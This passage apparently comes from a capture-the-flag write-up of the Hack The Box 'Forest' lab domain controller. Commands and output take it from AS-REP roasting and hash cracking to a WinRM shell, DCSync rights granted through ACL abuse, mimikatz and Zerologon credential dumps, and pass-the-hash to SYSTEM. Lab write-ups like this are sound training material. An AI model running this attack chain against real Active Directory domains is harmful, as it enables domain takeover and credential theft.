Use of uninitialized value $global_workgroup in concatenation (.) or string at enum4linux.pl line 995.
Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Tue Dec 29 13:10:58 2020
```
Find service accounts without preauthentication:
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-kk6zubslxy]─[/usr/share/doc/python3-impacket/examples]
└──╼ [★]$ python3 GetNPUsers.py -dc-ip 10.129.1.77 -no-pass -usersfile /home/htb-jib1337/writeups/HackTheBox/HTB_Forest/users.txt 'htb.local/' -format hashcat
GetNPUsers.py:413: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if domain is '':
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:9289f66894ff6a6ec11ce085d88d2b44$918bab1770a04648b980afdf443a2d013a98cebf40a90acb8568ebac8c99173de9beb3eb41211783ed9d34744a36260ebf24344d4e08bd54b5bda1d4d87a26f4e01b7f8d514d6a0e805d3e0d27852be5c2dcbb58d4e2a9db8dce5f0080d890038678c3492a7dd6b55c47fc40833197839121f8a8ecc898841a520ac40cb792afc3c0741ad045e2e2a2fdbbc9a9a428d0b3a323f8bce45337b6dd630c02a24db22b578a9b9232ce27aade9d7a824819dbe3b958b077679b309f3f30a744d74c695bad677836068fffccff211a15573b3c7559db1393848146173b9ff4e0c843ed575429dd75a2
```
### 3. Crack the AESREP message
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-kk6zubslxy]─[~/writeups/HackTheBox/HTB_Forest]
└──╼ [★]$ hashcat -a 0 -m 18200 svc-alfresco.aesrep /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --force
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) Gold 6140 CPU @ 2.30GHz, 2048/5918 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 3120

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=16 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
* Device #1: Kernel m18200_a0-pure.e12ed434.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 44754478080
* Runtime...: 2 secs

$krb5asrep$23$svc-alfresco@HTB.LOCAL:9289f66894ff6a6ec11ce085d88d2b44$918bab1770a04648b980afdf443a2d013a98cebf40a90acb8568ebac8c99173de9beb3eb41211783ed9d34744a36260ebf24344d4e08bd54b5bda1d4d87a26f4e01b7f8d514d6a0e805d3e0d27852be5c2dcbb58d4e2a9db8dce5f0080d890038678c3492a7dd6b55c47fc40833197839121f8a8ecc898841a520ac40cb792afc3c0741ad045e2e2a2fdbbc9a9a428d0b3a323f8bce45337b6dd630c02a24db22b578a9b9232ce27aade9d7a824819dbe3b958b077679b309f3f30a744d74c695bad677836068fffccff211a15573b3c7559db1393848146173b9ff4e0c843ed575429dd75a2:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:9289f66894ff6a...dd75a2
Time.Started.....: Tue Dec 29 13:17:44 2020 (22 secs)
Time.Estimated...: Tue Dec 29 13:18:06 2020 (0 secs)
Guess.Base.......: File (/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/InsidePro-PasswordsPro.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1252.6 kH/s (6.35ms) @ Accel:8 Loops:4 Thr:64 Vec:16
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 27320320/44754478080 (0.06%)
Rejected.........: 0/27320320 (0.00%)
Restore.Point....: 8192/14344384 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:856-860 Iteration:0-4
Candidates.#1....: t1odles -> 14221122

Started: Tue Dec 29 13:17:31 2020
Stopped: Tue Dec 29 13:18:07 2020
```
This retrieves the service account credentials as `svc-alfresco:s3rvice`.

### 4. Get a shell
Throw the creds into CME:
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-kk6zubslxy]─[~/enum4linux]
└──╼ [★]$ crackmapexec winrm 10.129.1.77 -u 'svc-alfresco' -p 's3rvice'
WINRM       10.129.1.77     5985   NONE             [*] http://10.129.1.77:5985/wsman
WINRM       10.129.1.77     5985   NONE             [+] None\svc-alfresco:s3rvice (Pwn3d!)
```
Log in with WinRM.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-kk6zubslxy]─[~/enum4linux]
└──╼ [★]$ evil-winrm -i 10.129.1.77 -u 'svc-alfresco' -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
```
### 5. Enumeration from user
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Get-ComputerInfo

WindowsBuildLabEx                                       : 14393.2273.amd64fre.rs1_release_1.180427-1811
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : ServerStandard
WindowsInstallationType                                 : Server Core
WindowsInstallDateFromRegistry                          : 9/18/2019 5:07:59 PM
WindowsProductId                                        : 00376-30821-30176-AA930
WindowsProductName                                      : Windows Server 2016 Standard
WindowsRegisteredOrganization                           :
WindowsRegisteredOwner                                  : Windows User
WindowsSystemRoot                                       : C:\Windows
```
The machine is 64 bit, Windows Server 2016.
Checking out groups:
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149 Mandatory group, Enabled by default, Enabled group
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```
Upload and run winPEAS:
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload ../winPEAS.exe
Info: Uploading ../winPEAS.exe to C:\Users\svc-alfresco\Desktop\winPEAS.exe

                                                             
Data: 322900 bytes of 322900 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> .\winPEAS.exe
ANSI color bit for Windows is not set. If you are execcuting this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
Error while getting Win32_UserAccount info: System.Management.ManagementException: Access denied
   at System.Management.ThreadDispatch.Start()
   at System.Management.ManagementScope.Initialize()
   at System.Management.ManagementObjectSearcher.Initialize()
   at System.Management.ManagementObjectSearcher.Get()
   at winPEAS.Program.CreateDynamicLists()
   - Creating current user groups list...
   - Creating active users list...
  [X] Exception: System.NullReferenceException: Object reference not set to an instance of an object.
   at winPEAS.UserInfo.GetMachineUsers(Boolean onlyActive, Boolean onlyDisabled, Boolean onlyLockout, Boolean onlyAdmins, Boolean fullInfo)
   - Creating disabled users list...
  [X] Exception: System.NullReferenceException: Object reference not set to an instance of an object.
   at winPEAS.UserInfo.GetMachineUsers(Boolean onlyActive, Boolean onlyDisabled, Boolean onlyLockout, Boolean onlyAdmins, Boolean fullInfo)
   - Admin users list...
  [X] Exception: System.NullReferenceException: Object reference not set to an instance of an object.
   at winPEAS.UserInfo.GetMachineUsers(Boolean onlyActive, Boolean onlyDisabled, Boolean onlyLockout, Boolean onlyAdmins, Boolean fullInfo)

             *((,.,/((((((((((((((((((((/,  */
      ,/*,..*((((((((((((((((((((((((((((((((((,
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*
    ((((((((((((((((**********/########## .(* ,(((((((
    (((((((((((/********************/####### .(. (((((((
    ((((((..******************/@@@@@/***/###### ./(((((((
    ,,....********************@@@@@@@@@@(***,#### .//((((((
    , ,..********************/@@@@@%@@@@/********##((/ /((((
    ..((###########*********/%@@@@@@@@@/************,,..((((
    .(##################(/******/@@@@@/***************.. /((
    .(#########################(/**********************..*((
    .(##############################(/*****************.,(((
    .(###################################(/************..(((
    .(#######################################(*********..(((
    .(#######(,.***.,(###################(..***.*******..(((
    .(#######*(#####((##################((######/(*****..(((
    .(###################(/***********(##############(...(((
    .((#####################/*******(################.((((((
    .(((############################################(..((((
    ..(((##########################################(..(((((
    ....((########################################( .(((((
    ......((####################################( .((((((
    (((((((((#################################(../((((((
        (((((((((/##########################(/..((((((
              (((((((((/,.  ,*//////*,. ./(((((((((((((((.
                 (((((((((((((((((((((((((((((/

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

  WinPEAS vBETA VERSION, Please if you find any issue let me know in https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues by carlospolop

  [+] Leyend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links

   [?] You can find a Windows local PE Checklist here: https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation


  ==========================================(System Information)==========================================

  [+] Basic System Information(T1082&T1124&T1012&T1497&T1212)
   [?] Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits
  [X] Exception: Access denied 
  [X] Exception: Access denied 
System.Collections.Generic.KeyNotFoundException: The given key was not present in the dictionary.
   at System.ThrowHelper.ThrowKeyNotFoundException()
   at System.Collections.Generic.Dictionary`2.get_Item(TKey key)
   at winPEAS.Program.<PrintSystemInfo>g__PrintBasicSystemInfo|40_0()

  [+] PowerShell Settings()
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.14393.0
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 

  [+] Audit Settings(T1012)
   [?] Check what is being logged 
    Not Found

  [+] WEF Settings(T1012)
   [?] Windows Event Forwarding, is interesting to know were are sent the logs 
    Not Found

  [+] LAPS Settings(T1012)
   [?] If installed, local administrator password is changed frequently and is restricted by ACL 
    LAPS Enabled: LAPS not installed

  [+] Wdigest()
   [?] If enabled, plain-text crds could be stored in LSASS https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#wdigest
    Wdigest is not enabled

  [+] LSA Protection()
   [?] If enabled, a driver is needed to read LSASS memory (If Secure Boot or UEFI, RunAsPPL cannot be disabled by deleting the registry key) https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#lsa-protection
    LSA Protection is not enabled

  [+] Credentials Guard()
   [?] If enabled, a driver is needed to read LSASS memory https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#credential-guard
    CredentialGuard is not enabled

  [+] Cached Creds()
   [?] If > 0, credentials will be cached in the registry and accessible by SYSTEM user https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections#cached-credentials
    cachedlogonscount is 10

  [+] User Environment Variables()
   [?] Check for some passwords or keys in the env variables 
    COMPUTERNAME: FOREST
    PUBLIC: C:\Users\Public
    LOCALAPPDATA: C:\Users\svc-alfresco\AppData\Local
    PSModulePath: C:\Users\svc-alfresco\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
    PROCESSOR_ARCHITECTURE: AMD64
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Users\svc-alfresco\AppData\Local\Microsoft\WindowsApps
    CommonProgramFiles(x86): C:\Program Files (x86)\Common Files
    ProgramFiles(x86): C:\Program Files (x86)
    PROCESSOR_LEVEL: 23
    ProgramFiles: C:\Program Files
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
    USERPROFILE: C:\Users\svc-alfresco
    SystemRoot: C:\Windows
    ALLUSERSPROFILE: C:\ProgramData
    ProgramData: C:\ProgramData
    PROCESSOR_REVISION: 0102
    USERNAME: svc-alfresco
    CommonProgramW6432: C:\Program Files\Common Files
    CommonProgramFiles: C:\Program Files\Common Files
    OS: Windows_NT
    PROCESSOR_IDENTIFIER: AMD64 Family 23 Model 1 Stepping 2, AuthenticAMD
    ComSpec: C:\Windows\system32\cmd.exe
    SystemDrive: C:
    TEMP: C:\Users\SVC-AL~1\AppData\Local\Temp
    NUMBER_OF_PROCESSORS: 2
    APPDATA: C:\Users\svc-alfresco\AppData\Roaming
    TMP: C:\Users\SVC-AL~1\AppData\Local\Temp
    ProgramW6432: C:\Program Files
    windir: C:\Windows
    USERDOMAIN: HTB
    USERDNSDOMAIN: htb.local

  [+] System Environment Variables()
   [?] Check for some passwords or keys in the env variables 
    ComSpec: C:\Windows\system32\cmd.exe
    OS: Windows_NT
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
    PROCESSOR_ARCHITECTURE: AMD64
    PSModulePath: C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
    TEMP: C:\Windows\TEMP
    TMP: C:\Windows\TEMP
    USERNAME: SYSTEM
    windir: C:\Windows
    NUMBER_OF_PROCESSORS: 2
    PROCESSOR_LEVEL: 23
    PROCESSOR_IDENTIFIER: AMD64 Family 23 Model 1 Stepping 2, AuthenticAMD
    PROCESSOR_REVISION: 0102

  [+] HKCU Internet Settings(T1012)
    DisableCachingOfSSLPages: 0
    IE5_UA_Backup_Flag: 5.0
    PrivacyAdvanced: 1
    SecureProtocols: 2688
    User Agent: Mozilla/4.0 (compatible; MSIE 8.0; Win32)
    CertificateRevocation: 1
    ZonesSecurityUpgrade: System.Byte[]

  [+] HKLM Internet Settings(T1012)
    EnablePunycode: 1

  [+] Drives Information(T1120)
   [?] Remember that you should search more info inside the other drives 
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 29 GB)(Permissions: Users [AppendData/CreateDirectories])
    D:\ (Type: CDRom)

  [+] AV Information(T1063)
  [X] Exception: Access denied 
    No AV was detected!!
    Not Found

  [+] UAC Status(T1012)
   [?] If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
    ConsentPromptBehaviorAdmin: 5 - PromptForNonWindowsBinaries
    EnableLUA: 1
    LocalAccountTokenFilterPolicy: 
    FilterAdministratorToken: 0
      [*] LocalAccountTokenFilterPolicy set to 0 and FilterAdministratorToken != 1.
      [-] Only the RID-500 local admin account can be used for lateral movement.
```
The machine does not appear to be running any AV.  
Collect data for BloodHound:
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> .\SharpHound.exe
------------------------------------------------
Initializing SharpHound at 6:10 AM on 12/29/2020
------------------------------------------------

Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 21 MB RAM
Status: 123 objects finished (+123 61.5)/s -- Using 28 MB RAM
Enumeration finished in 00:00:02.4093629
Compressing data to .\20201229061035_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 6:10 AM on 12/29/2020! Happy Graphing!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls

    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/29/2020   6:10 AM          15170 20201229061035_BloodHound.zip
-a----       12/29/2020   5:54 AM        1309448 mimikatz.exe
-a----       12/29/2020   6:10 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----       12/29/2020   6:06 AM         833024 SharpHound.exe
-ar---        9/23/2019   2:16 PM             32 user.txt
-a----       12/29/2020   5:45 AM         242176 winPEAS.exe

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> download 20201229061035_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Desktop\20201229061035_BloodHound.zip to 20201229061035_BloodHound.zip
                                                             
Info: Download successful!
```
Map the shortest path to Domain Admin from the owned account.
  
The owned account is an inherent member of the account operators group which has GenericAll privileges to the Exchange Windows Permissions group, which has WriteDACL permissions to the domain.
Abuse info from BloodHound:
  
*To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.*
  
*You may need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):*
```shell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
```
*Then, use Add-DomainObjectAcl, optionally specifying $Cred if you are not already running a process as EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL:*
```shell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
*Once you have granted yourself this privilege, you may use the mimikatz dcsync function to dcsync the password of arbitrary principals on the domain*
```shell
lsadump::dcsync /domain:testlab.local /user:Administrator
```
*Cleanup can be done using the Remove-DomainObjectAcl function:*
```shell
Remove-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```
Another reference: https://adsecurity.org/?p=3658

### 6. Grant DCSync to account
Set up PowerView:
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload PowerSploit/Recon/PowerView.ps1
Info: Uploading PowerSploit/Recon/PowerView.ps1 to C:\Users\svc-alfresco\Documents\PowerView.ps1

                                                             
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\PowerView.ps1
```
First create a new account that can be modified.
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user jack password123 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add jack
The command completed successfully.
```
Next, add DCSync rights the the user.
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'password123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\jack', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=HTB,DC=local' -PrincipalIdentity jack -Rights DCSync
```
In order to log in as the modified user I can also add the user to the "Remote Management Users" group.
```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" /add jack
The command completed successfully.
```

### 7. Get Admin credentials
Log in as the "jack" user, upload and use mimikatz to dump admin hash.
```shell
*Evil-WinRM* PS C:\Users\jack\Documents> .\meow.exe "lsadump::dcsync /domain:htb.local /user:Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:htb.local /user:Administrator
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 9/18/2019 9:09:08 AM
Object Security ID   : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 32693b11e6aa90eb43d32c72a07ceea6

mimikatz(commandline) # exit
Bye!
```

### 8. Get a SYSTEM shell
From here, use psexec to elevate to SYSTEM remotely.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-gnmqkxd0jn]─[/usr/share/doc/python3-impacket/examples]
└──╼ [★]$ python3 psexec.py -hashes :32693b11e6aa90eb43d32c72a07ceea6 HTB.local/Administrator@10.129.72.52
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.129.72.52.....
[*] Found writable share ADMIN$
[*] Uploading file QwKEmDQw.exe
[*] Opening SVCManager on 10.129.72.52.....
[*] Creating service GcVg on 10.129.72.52.....
[*] Starting service GcVg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## Using Zerologon in Mimikatz
Reference: https://stealthbits.com/blog/zerologon-from-zero-to-hero-part-2/
  
### 1. Test
To test if a target is vulnerable, run from an account connected to the domain:
```shell
*Evil-WinRM* PS C:\Users\jack\Documents> .\meow.exe "lsadump::zerologon /target:FOREST.HTB.local /account:FOREST$ /null /ntlm" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::zerologon /target:FOREST.HTB.local /account:FOREST$ /null /ntlm
Remote   : FOREST.HTB.local
ProtSeq  : ncacn_ip_tcp
AuthnSvc : WINNT
NULL Sess: yes

Target : FOREST.HTB.local
Account: FOREST$
Type   : 6 (Server)
Mode   : detect

Trying to 'authenticate'...
=======================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000

* Authentication: OK -- vulnerable

mimikatz(commandline) # exit
Bye!
```

### 2. Exploit
```shell
*Evil-WinRM* PS C:\Users\jack\Documents> .\meow.exe "lsadump::zerologon /target:FOREST.HTB.local /account:FOREST$ /null /ntlm /exploit" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::zerologon /target:FOREST.HTB.local /account:FOREST$ /null /ntlm /exploit
Remote   : FOREST.HTB.local
ProtSeq  : ncacn_ip_tcp
AuthnSvc : WINNT
NULL Sess: yes

Target : FOREST.HTB.local
Account: FOREST$
Type   : 6 (Server)
Mode   : exploit

Trying to 'authenticate'...
=================================================================================================================================================================================================

  NetrServerAuthenticate2: 0x00000000
  NetrServerPasswordSet2 : 0x00000000

* Authentication: OK -- vulnerable
* Set password  : OK -- may be unstable

mimikatz(commandline) # exit
Bye!
```
Domain hashes can then be dumped.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-gnmqkxd0jn]─[~/forest/impacket/examples]
└──╼ [★]$ python3 secretsdump.py -just-dc -no-pass FOREST\$@10.129.72.52
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
